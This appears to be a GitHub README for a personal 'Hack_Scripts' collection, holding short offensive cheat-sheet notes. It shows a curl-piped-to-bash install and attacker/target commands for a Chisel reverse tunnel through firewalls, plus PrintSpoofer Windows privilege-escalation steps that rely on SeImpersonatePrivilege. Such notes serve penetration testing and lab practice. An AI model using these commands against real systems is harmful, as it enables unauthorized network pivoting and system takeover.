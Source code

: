 # Hack_Scripts

The Scripts for Hacking and general ,
Includes python2  and Java
  --> Java
  --> Python
  --> Php

# CHISEL

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

See the latest release or download and install it now with curl https://i.jpillora.com/chisel! | bash

### Usage

$ chisel --help
  Usage: chisel [command] [--help]
  
  Version: X.Y.Z
  
  Commands:
  - server - runs chisel in server mode.
  - client - runs chisel in client mode.
    
  Read more:
  https://github.com/jpillora/chisel
    
`chisel server -p 9000 --reverse -v`   >> Run in Attacker Machine  
`chisel client <attacker ip:port{differnt port}> R:<attacker ip:port{different port1}>:<localhost:port{running port, need to be forwarded}>`   >> Run in Target Machine
 

# PrinterSpoofer

https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/  

Windows privilege escalation, To achive this check for **Privilages Information** by 
`whoami /priv'  

PRIVILEGES INFORMATION
----------------------

| Privilege Name             |   Description                            |   State     |  
|----------------------------|------------------------------------------|-------------|  
|SeAssignPrimaryTokenPrivilege| Replace a process level token            | Disabled   |
|SeIncreaseQuotaPrivilege     | Adjust memory quotas for a process       | Disabled   |
|SeAuditPrivilege             | Generate security audits                 | Disabled   |
|SeChangeNotifyPrivilege      | Bypass traverse checking                 | Enabled    |
|**SeImpersonatePrivilege     |   Impersonate a client after authentication| Enabled**|  
|SeCreateGlobalPrivilege      | Create global objects                    | Enabled    |
|SeIncreaseWorkingSetPrivilege| Increase a process working set           | Disabled   | 
  
***SeImpersonatePrivilege*** need to be **Enabled**  

## Command for escaltion
`PrinterSpoofer.exe -i -c cmd`

